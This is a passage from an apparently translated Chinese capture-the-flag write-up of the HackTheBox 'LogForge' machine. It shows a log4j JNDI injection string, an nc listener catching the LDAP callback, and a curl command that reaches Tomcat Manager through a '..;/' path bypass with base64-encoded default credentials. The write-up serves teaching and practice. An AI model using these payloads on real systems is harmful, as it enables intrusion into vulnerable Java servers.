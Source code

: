 我试着上传一个 msfvenom 生成的 war 文件，就像我们在 Seal box [这里](https://pencer.io/ctf/ctf-htb-seal/#msfvenom)所做的一样，但是这个方法被 1kb 的文件大小限制阻止了。这个盒子叫做 LogForge，所以我们可以安全地假设我们的路径现在正在使用 log4j 漏洞进行。

# 利用 JNDI 查询

如果你在未来的某个时候读到这篇文章，希望事情已经平息了，但现在 log4j 和利用 JNDI 的漏洞已经遍布互联网。如果你需要的话，可以在这里[和](https://docs.oracle.com/javase/jndi/tutorial/getStarted/overview/index.html)[这里](https://thenewstack.io/log4shell-we-are-in-so-much-trouble/)读一点。Reddit [上还有一个很好的资源，这里有一个](https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/)的例子，其中包括试图利用这个漏洞时可以尝试的 JNDI 查询。

我将简单地开始，并尝试使用以下查询通过 ldap 让机器联系我:

```
${jndi:ldap://10.10.14.12/pencer}
```

在 Kali 上启动 nc 监听，然后尝试将上面的内容粘贴到我们在 Tomcat Manager 应用程序上找到的各个字段中:

![](img/38ce314b43f9e5fa294a47ca8c3239ae.png)

测试 JNDI 漏洞

粘贴并按下 Expire Sessions 按钮后，切换到 Kali 上的 nc:

```
┌──(root💀kali)-[~/htb/logforge]
└─# nc -nlvp 389
listening on [any] 389 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.138] 48504
0
 `�
```

这些字符证明服务器试图通过 LDAP 在端口 389 上连接到我们。我们也可以用 curl 代替浏览器来做这件事，就像我们在 box [Dynstr](https://pencer.io/ctf/ctf-htb-dynstr/#api-investigation) 上做的那样:

```
┌──(root💀kali)-[~]
└─# curl "http://10.10.11.138/pencer/..;/manager/html/expire?path=/" --data-binary "idle=\${jndi:ldap://10.10.14.12/pencer}" 
-H "Authorization: Basic dG9tY2F0OnRvbWNhdA=="
```

注意，在用 curl 做这件事的时候，我对用户名和密码进行了 base64 编码，所以它可以在头中传递。
